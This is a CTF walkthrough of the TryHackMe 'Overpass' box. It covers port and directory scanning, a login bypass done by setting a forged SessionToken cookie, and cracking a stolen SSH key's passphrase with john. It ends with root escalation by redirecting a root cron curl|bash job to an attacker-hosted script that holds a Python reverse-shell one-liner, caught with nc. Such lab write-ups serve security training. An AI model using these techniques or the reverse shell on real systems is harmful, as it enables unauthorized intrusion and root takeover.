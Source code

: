 # 'Overpass' box writeup
## Overpass is a CTF box written by NinjaJc01 and available on the [TryHackMe](https://tryhackme.com/) platform.
## Read about [Broken Authentication](https://www.youtube.com/watch?v=mruO75ONWy8), [OWASP A2](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)
# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **Let's start with a nmap scan for ports**

``nmap -sV -sC -oN scan1 10.10.107.5``

+ **We can clearly see 2 ports open, ssh and a http, configured on default ports**

# ![1](images/nmap_scan_ov(1).jpg?raw=true "nmap_scan")

+ **Visiting the http web-site, we are welcomed by a page which contains info about a specific password-manager app built by some developers. We also see a download link button**

# ![2](images/visited.jpg?raw=true "visit")

**Accessing the download page, we can look through the Source code of the password-manager app. It looks like it's written in go language which encrypt passwords with the ROT47 algorithm**

+ **Let's do a gobuster scan of the web site**

``gobuster dir -u http://10.10.107.5/ -w /usr/share/wordlists/dirb/big.txt``

# ![3](images/admin.jpg?raw=true "admin")

+ **We can spot an admin page and accessing it, we can see an administrator login area. I tried, unsuccessfully, a SQL injection and then moved on the 2nd OWASP vuln. Let's look into the source code of the page and into some js code**

# ![4](images/scripts.jpg?raw=true "scripts")

**We can clearly see a login.js script so let's look into the source code. The login function seems to be a way to go**

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

+ **The credentials of the login page are sent to a endpoint inside some DB of the box and a session token is used. It seems like the session token is set with the statusOrCookie parameter. If we change the SessionToken value, maybe we can bypass the login. Let's create the cookie with the name of *SessionToken* and any value you want inside it**

# ![5](images/session.jpg?raw=true "sess")

## User escalation

**Now, trying to refresh the page we can observe we bypassed the login auth and a RSA private key of some guy named James is on our screen. Let's save it in some txt file and use it to connect to ssh**

# ![6](images/RSA.jpg?raw=true "rsa")

``chmod 600 id_rsa``

``ssh -i id_rsa james@10.10.107.5``

+ **Trying to connect to ssh, a key is required for our file. Let's use ssh2john to bruteforce our way in: i'm gonna use ssh2john to get our first hash then crack it with john using the rockyou.txt wordlist**

``python ssh2john.py id_rsa > key_hash``

``sudo john key_hash -wordlist=/usr/share/wordlists/rockyou.txt``

# ![7](images/johned.jpg?raw=true "johnny")

**Using our password for the ssh we are in! There's two files into user's home directory: one of them is our user's flag and the other seems to be an update of their encryption app**

# ![8](images/userflag(1).jpg?raw=true "userfl")

## Root escalation

+ **According the message inside the todo.txt file, we can see that james is using the same app to encrypt his password. Listing the hidden files inside his directory we can see another file named** *.overpass* **It seems to be james password so we're gonna use it, but first don't forget to decrypt it, because it's encrypted with ROT47, as they said in the beginning page**

**Running sudo -l command, we cannot se any allowed cmds for james user**

# ![9](images/noturn.jpg?raw=true "noturn")

+ **Let's continue and look into the /etc/crontab file**

``cat /etc/crontab``

# ![10](images/croned.jpg?raw=true "crontab")

+ **We can see a curl command, executed by root, which runs every minute and transfer the data from the *buildscript.sh*, the building script for their encrypting app, into terminal, then executed by bash. This script is taken from the machine local web-site, and the domain used is overpass.thm. If we look into the /etc/hosts file we can see the overpass.thm dns belongs to the local ip of the machine**

# ![11](images/hostsetc.png?raw=true "hostsetc")

+ **What if we can run our own script on this machine? If we modify the overpass.thm domain into our local machine domain, we can host locally a python server and upload maybe a python script which get us a reverse shell. The respective script is executed by root so we're gonna get a root shell**

# ![12](images/modfiy.jpg?raw=true "modify")

**Next step is to create a similar path with the /etc/crontab curl get request from the host - */downloads/src/buildscript.sh*. Let's do this into our local machine and we're gonna host the server into our home directory**

``mkdir downloads``

``mkdir src``

**Now, let's create the *buildscript.sh***

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

# ![13](images/pythoned.jpg?raw=true "pyth")

+ **The last step is to start our server from the home directory (on the 80 port) and then start a listener with nc**

``sudo python -m SimpleHTTPServer 80``

``nc -lvnp 1234``

# ![14](images/root_flagos.jpg?raw=true "flagos")

**And we are root! It was a nice box with a very important vulnerability based on the Broken Authentication and some exploiting crontab service**
